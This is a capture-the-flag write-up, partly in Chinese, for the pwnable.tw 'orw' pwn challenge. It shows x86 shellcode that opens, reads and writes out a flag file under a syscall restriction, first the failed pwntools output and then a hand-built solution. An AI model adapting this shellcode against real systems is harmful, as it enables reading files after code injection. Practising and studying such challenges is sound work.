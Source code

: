 # orw

> Challenge link: [orw](https://pwnable.tw/challenge/#2)
>
> Category: pwn
>
> Writeup: [orw](https://github.com/frozenkp/CTF/tree/master/others/pwnable.tw/orw)

Read the flag from `/home/orw/flag`.

Only `open` `read` `write` syscall are allowed to use.

`nc chall.pwnable.tw 10001`

[orw](https://pwnable.tw/static/chall/orw)

## Observation

這題題意很簡單，就是輸入 shellcode，它會幫你執行

題目敘述中有說只能使用 `open` `read` `write`，且 flag 在 `/home/orw/flag` ，所以步驟如下

- open('/home/orw/flag')
- read to buffer
- write to stdout

![](https://i.imgur.com/x1eEwmd.png)

## Try

我一開始試著使用 pwntool 中內建的[工具](http://docs.pwntools.com/en/stable/shellcraft/i386.html)，但無法成功讀出檔案

```python
>>> print shellcraft.i386.linux.cat('/home/orw/flag')
    /* push '/home/orw/flag\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f77
    push 0x726f2f65
    push 0x6d6f682f
    /* open(file='esp', oflag='O_RDONLY', mode=0) */
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call open() */
    push SYS_open /* 5 */
    pop eax
    int 0x80
    /* sendfile(out_fd=1, in_fd='eax', offset=0, count=2147483647) */
    push 1
    pop ebx
    mov ecx, eax
    xor edx, edx
    push 0x7fffffff
    pop esi
    /* call sendfile() */
    xor eax, eax
    mov al, 0xbb
    int 0x80
```

## Solution

最後我選擇參考 [x86 syscall](https://syscalls.kernelgrok.com/) 逐步構造出 `open` `read` `write` 

- `open(file='esp', oflag='O_RDONLY', mode=0)`
    - 這個我採用 pwntool 輸出的寫法
- `read(fd, buf, length)`
    - `eax` 是 0x3
    - `fd` 存在 `open()` 的回傳結果 (`eax`)
    - `buf` 選在 `esp`
    - `length` 是 60
- `write(stdout, buf, length)`
    - `eax` 是 0x4
    - `stdout` 是 1
    - `buf` 是剛剛讀取的 `esp`
    - `length` 是 60

```assembly
/* push '/home/orw/flag\x00' */
        push 0x1010101
        xor dword ptr [esp], 0x1016660
        push 0x6c662f77
        push 0x726f2f65
        push 0x6d6f682f
/* open(file='esp', oflag='O_RDONLY', mode=0) */
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
/* call open() */
        push SYS_open /* 5 */
        pop eax
        int 0x80
/*call read()*/
        push eax
        push 0x3
        pop eax
        pop ebx
        push 60
        pop edx
        mov ecx, esp
        int 0x80
/*call write()*/
        push 0x4
        pop eax
        push 0x1
        pop ebx
        push 60
        pop edx
        mov ecx, esp
        int 0x80
```

